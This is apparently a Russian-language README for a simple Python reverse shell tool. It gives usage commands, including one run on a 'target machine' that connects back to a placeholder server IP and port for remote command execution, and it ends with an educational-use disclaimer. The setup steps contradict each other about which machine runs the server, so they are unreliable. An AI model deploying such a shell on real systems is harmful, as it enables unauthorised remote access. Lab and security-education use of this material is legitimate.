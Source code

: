 # Базовый Reverse Shell на Python

## Описание
Это простая реализация reverse shell с клиентской и серверной частью на Python. 
Клиент подключается к серверу и выполняет команды, отправляя результаты обратно.

## Использование
1. Запустите сервер на машине, к которой хотите получить доступ:
   `python server.py`

2. Запустите клиент на целевой машине:
   `python client.py <SERVER_IP> <SERVER_PORT>`

## Предупреждение
Этот код предназначен только для образовательных целей и тестирования на собственных системах. 
Использование этого кода против систем без разрешения является незаконным.

## Лицензия
MIT License - см. файл LICENSE
